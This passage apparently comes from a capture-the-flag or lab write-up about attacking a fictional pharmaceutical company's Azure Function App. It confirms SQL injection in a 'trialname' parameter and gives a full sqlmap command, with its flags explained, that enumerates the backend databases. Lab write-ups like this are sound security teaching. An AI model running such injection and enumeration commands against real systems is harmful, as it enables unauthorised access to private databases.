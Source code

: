 And we get all the info for the trialname "CardioPhase II"

Let's test the input for SQL Injection, seeing as we are working with DB's and inputs into the Function App.

![SQLi](/assets/img/burpsqli.png)

And we have SQL Injection dumping all trialnames information. Exploiting this will be tedious in BurpSuite so let's save the request to `pharsightsqli.req` and use [SQLMap](https://github.com/sqlmapproject/sqlmap) to do the heavy lifting for us. Work smarter, not harder `:)`

## SQLMap

Let's run the command to see which DB's are available.

```console
sqlmap -r pharsightsqli.req -p "trialname" --skip-urlencode --dbs
```

- `-r` for our request file
- `-p` for our vulnerable parameter
- `--skip-urlencode` to skip URL Encoding 
- `--dbs` to list Databases

We see 3 DB's listed. 

- `master`
- `pharsight-srv-1`
- `tempdb`

![SQLMap](/assets/img/sqlmapdbsflag3.png)
